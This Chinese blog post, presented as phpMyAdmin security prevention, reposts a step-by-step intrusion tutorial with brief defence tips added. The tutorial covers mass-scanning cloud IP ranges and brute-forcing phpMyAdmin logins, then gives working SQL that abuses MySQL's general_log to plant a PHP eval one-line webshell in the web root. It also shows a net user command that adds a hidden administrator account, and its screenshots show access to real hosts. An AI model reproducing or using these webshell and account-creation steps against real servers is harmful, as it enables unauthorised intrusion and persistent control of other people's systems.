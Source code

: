 ```yaml
---
layout: default
title: phpmyadmin安全预防
category: [Technology, Safe]
comments: true
---
```


## 头疼的安全
之前服务器总是本人黑,千疮百孔,只能一步步的去做一些安全防范,如何防范自然先从如何渗透开始.




## 文章及建议

前段时间看到了个phpmyadmin提权的教程,很多人都说现在那里还有root帐号root密码这种弱口令，今天给大家来一套完整的教学。

首先百度XX云X地区的IP段（你要是连几个国内云服务运营商的名字都不知道，那我就真的没办法了）。

![phpmyadmin从找目标到拿下服务器](https://www.77169.com/wp-content/uploads/2018/07/beepress-weixin-zhihu-jianshu-toutiao-plugin5-1532049122.jpg)

找到以后百度随便找个工具扫描IP段，大的运营商一般直接后两个大段都是他的

然后找到IP段以后直接找一个80端口批量扫描的工具扫80端口，直接扫两个大段

我用的这个叫S-Xing，百度来的，不知道有没有后门，所以就不提供了

![phpmyadmin从找目标到拿下服务器](https://www.77169.com/wp-content/uploads/2018/07/beepress-weixin-zhihu-jianshu-toutiao-plugin8-1532049123.png)

![phpmyadmin从找目标到拿下服务器](https://www.77169.com/wp-content/uploads/2018/07/beepress-weixin-zhihu-jianshu-toutiao-plugin9-1532049123.jpg)

扫描好以后导入刚才扫描好的IP

![phpmyadmin从找目标到拿下服务器](https://www.77169.com/wp-content/uploads/2018/07/beepress-weixin-zhihu-jianshu-toutiao-plugin10-1532049123.png) 

然后选择自动后缀

![phpmyadmin从找目标到拿下服务器](https://www.77169.com/wp-content/uploads/2018/07/beepress-weixin-zhihu-jianshu-toutiao-plugin6-1532049123.jpg)

线程根据自己配置来配置，我直接选择最高500，然后开始爆破

![phpmyadmin从找目标到拿下服务器](https://www.77169.com/wp-content/uploads/2018/07/beepress-weixin-zhihu-jianshu-toutiao-plugin5-1532049123.png)

爆破结果

![phpmyadmin从找目标到拿下服务器](https://www.77169.com/wp-content/uploads/2018/07/beepress-weixin-zhihu-jianshu-toutiao-plugin10-1532049123.jpg)

```
防范建议
这里的话,想要防范这一步,可以采取的方法有关闭phpMyAdmin,这个最直接了.
如果不关闭的话,建议更改访问的端口号.
然后默认密码必须修改,不可以使用简单密码.
目录的权限也最好下降到最低.
```

随便选择一个开搞

先看一下服务器信息xx.xx.xx.xx/l.php

![phpmyadmin从找目标到拿下服务器](https://www.77169.com/wp-content/uploads/2018/07/beepress-weixin-zhihu-jianshu-toutiao-plugin6-1532049124.jpg)

网站路径什么的都爆出来了，登录后台

![phpmyadmin从找目标到拿下服务器](https://www.77169.com/wp-content/uploads/2018/07/beepress-weixin-zhihu-jianshu-toutiao-plugin5-1532049124.png)

老规矩，查下mysql日志文件路径

![phpmyadmin从找目标到拿下服务器 ](https://www.77169.com/wp-content/uploads/2018/07/beepress-weixin-zhihu-jianshu-toutiao-plugin7-1532049124.png)


先修改日志路径到当前网站路径，在开启日志，并插入一句话木马，然后关闭日志

SET global general_log_file='C:/phpStudy/PHPTutorial/WWW/sean.php'; 

修改当前日志文件到网站目录下

set global general_log = "ON";                开启mysql记录日志

select '<?php eval($_POST[sean]);?>';   插入PHP        一句话木马

set global general_log = "OFF";              关闭mysql记录日志

![phpmyadmin从找目标到拿下服务器 ](https://www.77169.com/wp-content/uploads/2018/07/beepress-weixin-zhihu-jianshu-toutiao-plugin4-1532049124.png)

执行成功

![phpmyadmin从找目标到拿下服务器 ](https://www.77169.com/wp-content/uploads/2018/07/beepress-weixin-zhihu-jianshu-toutiao-plugin3-1532049124.png)

接下来上菜刀连接上传好的一句话木马

![phpmyadmin从找目标到拿下服务器](https://www.77169.com/wp-content/uploads/2018/07/beepress-weixin-zhihu-jianshu-toutiao-plugin3-1532049124-1.png)

![phpmyadmin从找目标到拿下服务器 ](https://www.77169.com/wp-content/uploads/2018/07/beepress-weixin-zhihu-jianshu-toutiao-plugin8-1532049124.png)

用`net user admin$ sean2018.. /add & net localgroup administrators admin$ /add`创建一个管理员账号

![phpmyadmin从找目标到拿下服务器 ](https://www.77169.com/wp-content/uploads/2018/07/beepress-weixin-zhihu-jianshu-toutiao-plugin7-1532049124.jpg)

账号已存在，那就直接修改密码了，带$符号的都是被影藏账号，估计被日了多少次了吧

![phpmyadmin从找目标到拿下服务器 ](https://www.77169.com/wp-content/uploads/2018/07/beepress-weixin-zhihu-jianshu-toutiao-plugin0-1532049124.jpg)

接下来连接试试

![phpmyadmin从找目标到拿下服务器 ](https://www.77169.com/wp-content/uploads/2018/07/beepress-weixin-zhihu-jianshu-toutiao-plugin0-1532049124-1.jpg)

![phpmyadmin从找目标到拿下服务器](https://www.77169.com/wp-content/uploads/2018/07/beepress-weixin-zhihu-jianshu-toutiao-plugin2-1532049124.png)

```
防范建议
在这一步的话,防范的方法也有一些,比方说加一个安全狗软件,算是不错的了.
至于写文件的这个权限,刚刚如果降低了,应该问题不大,不过也有可以提升权限的一些工具,因此需要及时更新数据库和系统的bug.
至于执行命令创建用户的权限,只能简单做好预防和定期查看了,基本上到了上一步,所有的权限和账户已经有了.到了这里目前只有重装系统,才能干掉这个入侵者的份了.
当然,如果把所有的漏洞堵上,也可以不重装.但是后门太多,非专业人员,处理不会怎么全面.
```
玩完，收工，文章内所有的工具，百度一搜索一大把，我也是百度来的，不知道有没有后门所以就不提供下载了，怕中毒找个虚拟机搞，自己折腾吧。

华盟网原创，随便转载但请注明来自77169.COM，感谢支持！

本文章只做教学思路，请勿用于非法用途



## 说明

[欢迎评论，欢迎指正,转载也请注明出处.](https://wangkun19930608.github.io/technology/safe/2018/08/06/safe-db/)

### 参考文章

[phpmyadmin从找目标到拿下服务器](https://www.77169.com/html/215589.html)


### 版本说明

20180806 开始着手文章

20180807 文章完成时间






